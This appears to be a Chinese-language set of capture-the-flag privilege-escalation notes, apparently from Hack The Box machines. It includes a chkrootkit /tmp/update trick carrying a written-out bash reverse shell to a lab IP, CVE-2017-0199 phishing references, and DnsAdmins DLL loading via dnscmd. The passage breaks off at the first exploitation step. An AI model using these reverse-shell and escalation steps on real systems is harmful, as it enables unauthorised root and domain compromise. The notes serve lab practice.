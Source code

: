 

- `chkrootkit` 有一个本地提权漏洞，https://www.exploit-db.com/exploits/38775 不管是啥版本，先利用一把试试 ，看了提权代码，最终是要做的就是此程序会以 root 身份周期性执行 /tmp/update 的文件，所以我们只需要新建 tmp 目录下的 update 文件，里面写入反弹shell 代码即可

  ```bash
  amrois@nineveh:~$ cd /tmp
  amrois@nineveh:/tmp$ vi update
  amrois@nineveh:/tmp$ cat update
  #!/bin/bash
  bash -i >& /dev/tcp/10.10.16.5/6666 0>&1
  amrois@nineveh:/tmp$ chmod +x update
  ```



-  msf 提权利用失败时 ，尝试 进程迁移到 x64  `migrate xxx` 再执行



- office_word_hta  CVE  [this GitHub](https://github.com/bhdresh/CVE-2017-0199)    [CVE-2017-0199](https://nvd.nist.gov/vuln/detail/CVE-2017-0199)  ，也可以用 msf  `exploit/windows/fileformat/office_word_hta`  详情：

  ```
  https://0xdf.gitlab.io/2018/11/10/htb-reel.html#phishing-with-rtf-dynamite
  ```

  


- ```powershell
  *Evil-WinRM* PS C:\> ls -force    类似于 ls -a
  gci -recurse -force -file xxxxx  # 类似于递归遍历文件夹中的文件
  ```



- `whoami /groups` ，权限提升中 `DnsAdmins` 组的利用

  [Active Directory 安全组 | Microsoft Learn](https://learn.microsoft.com/zh-cn/windows-server/identity/ad-ds/manage/understand-security-groups#dnsadmins)

  [Dnscmd | LOLBAS (lolbas-project.github.io)](https://lolbas-project.github.io/lolbas/Binaries/Dnscmd/)

  [在域控中滥用DNSAdmins权限的危害 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/2932)

  得到大概意思就是

  DNS管理员（DnsAdmin）对DNS服务器有读写权限，甚至可以告诉服务器挂载我们的DLL（原文指的是ServerLevelPluginDll文件），而且不对其挂载的路径进行验证。挂载的命令为：

  ```powershell
  dnscmd.exe /config /serverlevelplugindll \pathtodll
  ```

  利用步骤：

  1、kali 生成恶意 dll 并放在 smb 共享目录 

